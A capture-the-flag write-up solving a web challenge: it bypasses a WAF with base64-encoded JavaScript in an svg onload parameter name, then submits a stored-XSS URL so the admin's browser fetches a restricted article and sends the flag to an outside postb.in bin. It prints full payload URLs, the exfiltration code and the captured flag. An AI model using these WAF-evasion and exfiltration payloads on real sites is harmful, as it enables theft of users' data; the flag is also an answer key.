




# I Have Caught You Now

## Challenge
* Category: Web Security
* Points: 250

XSS is a thing of the past! Read all about it here: http://challenge.acictf.com:55351

### Hints
* See what happens if you send XSS to the search
* This WAF might make you less secure
* Use parameter names to your advantage


## Solution

### Tools
* [postb.in](https://postb.in/)
* Chrome or Firefox Browser Dev Tools
* https://www.urlencoder.org/
* https://www.base64encode.org/


Browse the website and take note of the different pages and forms. Lets list the areas of interest on the Website
* Our flag is at http://challenge.acictf.com:55351/article/1, but we do not have access to the page containing the flag
* Each page contains a `Search` box in the upper right corner. This is where we will fuzz the WAF (Web Application Firewall)
* There is a page where we submit articles to the admin for review. It is at http://challenge.acictf.com:55351/submit.

Since we do not have an account that can view the obfuscated page containing the flag, we will need to use the submission box in the third bullet to render the page and return to us the flag.

#### Approach
* Enumerate Details about the WAF
* Craft a Workable Payload that Bypasses the WAF
* Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

#### Enumerate Details about the WAF

The following sites have good examples on enumerating WAFs
* https://www.secjuice.com/bypassing-web-application-firewalls-for-cross-site-scripting/
* https://owasp.org/www-community/xss-filter-evasion-cheatsheet

Start by putting some familiar javascript into the Search Box `<script>window.alert('hello world')</script>` and view the WAF's output. We get the response `This Page has been blocked by SecureWAF`. Inspect the page and notice the `search` is in a HTML `<code></code>` block. Since our `<script>...</script>` tags were not included in the code block, we will probably need to obfuscate. Also take a look at the URL `/search?search=%3Cscript%3Ewindow.alert%28%27hello+world%27%29%3C%2Fscript%3E`. Notice the space in `hello world` was replaced with `+` and all of the `%HEX` characters. This is URL Encoding.

Put `<x>` in the Search Box. Notice the WAF did not trigger. The WAF is triggering on script tags and javascript. We will need to encode our payload. However, in order for our payload to execute, we will need to decode it. We also cannot have spaces in the non-base64 parts of our URL. A quick google search for `XSS without spaces` leads us to [this](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) page, which suggests using the `<svg>` tag to run javascript without spaces or slashes.   

Since we will be encoding the payload ourself, we will copy-paste the full URL into the browser rather than paste portions of it into the Search box.

Lets build the testing URL.
Our base url: http://challenge.acictf.com:55351/search?search=1&. We will put `1&` after the search= parameter. The `&` symbol separates parameters in a URL. So we are going to give it a random character `1` and then the next parameter is our payload.

Start url-encoding our payload. Make sure you read the whole response to the [stackexchange](https://security.stackexchange.com/questions/47684/what-is-a-good-xss-vector-without-forward-slashes-and-spaces) article referenced above. We will need to change the `•` in the payload to its proper urlencoded character (hex 0c). Put `<svg•onload=` in [this](https://www.urlencoder.org/) site and hit encode. Change the dot's characters to `0c`. So now we have `%3Csvg%0Conload%3D`.

Next. Lets encode `window.alert('Hello World')` in base64. It becomes `d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp`. You can use this website to do the base64 encoding https://www.base64encode.org/.

Now. we need to wrap the above base64 payload in some javascript that will decode the base64. You can play with javascripts `atob` function here https://www.w3schools.com/jsref/met_win_atob.asp

Our wrapped base64 atob function looks like this:
```
"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"
```

Finally, we will need to close our original `<svg` tag with an encoded >, which is `%3E`.

Now put it all together

http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E

Drop that URL into the browser. Hrmm, notice it did not trigger the WAF. Try adding `<script>` to the end to see if we trigger the WAF. This part took me a bit to figure out. We need to add `=<script>` to the end of the URL to trigger the WAF.

Now lets try the whole URL and see if we can run some javascript. Paste the following into the URL and see what happens.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+d2luZG93LmFsZXJ0KCdIZWxsbyBXb3JsZCcp+'`))"%3E=<script>
```



Huzzah! Check out the HTML `<code>` block below. It contains our scipt.




#### Craft a Workable Payload that Bypasses the WAF

Now that we tested the WAF above. Lets research some method in javascript to render another webpage. This [site](https://www.freecodecamp.org/news/here-is-the-most-popular-ways-to-make-an-http-request-in-javascript-954ce8c95aaa/) details four methods for making calls to websites in javascript. We will start by modifying the ajax `XMLHttpRequest()` method.

Modify our base code block to use the URL for the website containing the flag.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
  console.log(Http.responseText)
}
```

Paste the above code into https://www.base64encode.org/ and click encode. Our resulting payload is
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9
```

Now piece together the entire URL and drop it into the browser.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogIGNvbnNvbGUubG9nKEh0dHAucmVzcG9uc2VUZXh0KQp9+'`))"%3E=<script>
```

In your browser's Dev Tools, open the `console` and inspect the output. Below is a screenshot of a portion of the output.



We successfully grabbed the target website and printed its contents to our console. The problem, however, is we do not have an account to view the obfuscated content. So we will need to use their URL submission form to grab the target site for us and return its contents to our postb.in site.

#### Submit the Payload to the Admin for Review / Exfiltrate Obfuscated Flag to our postb.in

Before we modify our payload, we need to build a regex that can extract the flag from the website. I tried to convert the entire site to a string and ship it back to my postb.in endpoint, but was unable to do it. So we will grab just the flag and ship it back.

I am more familiar with pcre. I needed to play around with javascript regex to get the format just right. We will use javascript's `match()` function. I went [here](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/String/match) and tested a few regex's. We know the flag format is `ACI{something}`. So our regex is `/ACI{.*}/g`


Go to https://postb.in/ and Create a bin.

Modify our payload to include the flag regex and the callback to our postb.in endpoint.
```
const Http = new XMLHttpRequest();
const url='http://challenge.acictf.com:55351/article/1';
Http.open("GET", url);
Http.send();

Http.onreadystatechange = (e) => {
    flag = Http.responseText.match(/ACI{.*}/g);
    window.location = 'https://postb.in/1589226090750-2006637025624?flag=' + flag;
}
```

Copy your new payload into https://www.base64encode.org/ and get the new encoded payload. My payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0=
```

**IMPORTANT NOTE**
My payload contains characters that will error out in the `<svg>` script. I need to replace `=` with its URL encoded character `%3D`. Check your payload for any `+`, `/`, and `=` and switch them out for their URL encoded hex. You can get the encoded characters at https://www.urlencoder.org/

So my fixed payload is:
```
Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D
```

Now lets build the entire URL.
```
http://challenge.acictf.com:55351/search?search=1&%3Csvg%0Conload%3D"eval(atob(`'+Y29uc3QgSHR0cCA9IG5ldyBYTUxIdHRwUmVxdWVzdCgpOwpjb25zdCB1cmw9J2h0dHA6Ly9jaGFsbGVuZ2UuYWNpY3RmLmNvbTo1NTM1MS9hcnRpY2xlLzEnOwpIdHRwLm9wZW4oIkdFVCIsIHVybCk7Ckh0dHAuc2VuZCgpOwoKSHR0cC5vbnJlYWR5c3RhdGVjaGFuZ2UgPSAoZSkgPT4gewogICAgZmxhZyA9IEh0dHAucmVzcG9uc2VUZXh0Lm1hdGNoKC9BQ0l7Lip9L2cpOwogICAgd2luZG93LmxvY2F0aW9uID0gJ2h0dHBzOi8vcG9zdGIuaW4vMTU4OTIyNjA5MDc1MC0yMDA2NjM3MDI1NjI0P2ZsYWc9JyArIGZsYWc7Cn0%3D+'`))"%3E=<script>
```

Paste this URL into the `Submission` box at the http://challenge.acictf.com:55351/submit endpoint and click `Send Submission`. Go check your postb.in



There it is. The website used its permissions to view the obfuscated page and send us the flag.

**ACI{01cabd1a0620f802c5227970d37}**
